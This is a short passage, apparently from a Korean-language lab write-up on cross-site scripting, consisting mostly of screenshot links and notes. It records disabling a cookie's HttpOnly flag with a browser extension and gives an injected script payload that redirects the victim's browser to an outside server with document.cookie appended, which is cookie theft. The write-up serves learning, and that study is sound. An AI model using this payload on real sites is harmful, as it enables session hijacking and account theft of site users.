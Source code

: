 ![Untitled](XSS%20(Cross-site%20Scripting)%20bfb6c6c6ce0a45b6957a8a1961ada7ce/Untitled%206.png)

![Untitled](XSS%20(Cross-site%20Scripting)%20bfb6c6c6ce0a45b6957a8a1961ada7ce/Untitled%207.png)

*firefox*의 확장 프로그램인 *cookie-editor*를 이용해 `Http Only` 옵션을 해제하고 난 후 재시도하니 쿠키가 출력되었다. 

`Cookie`와 `Http Only`에 대해서는 *4. 고찰*에서 자세히 다루었다.

### Fake site로 이동, Cookie 탈취

`<script>document.location='[http://<자체 서버 ip>/test.php/'+document.cookie](http://183.109.161.55:9876/test.php/'+document.cookie)</script>` 삽입

![Untitled](XSS%20(Cross-site%20Scripting)%20bfb6c6c6ce0a45b6957a8a1961ada7ce/Untitled%208.png)
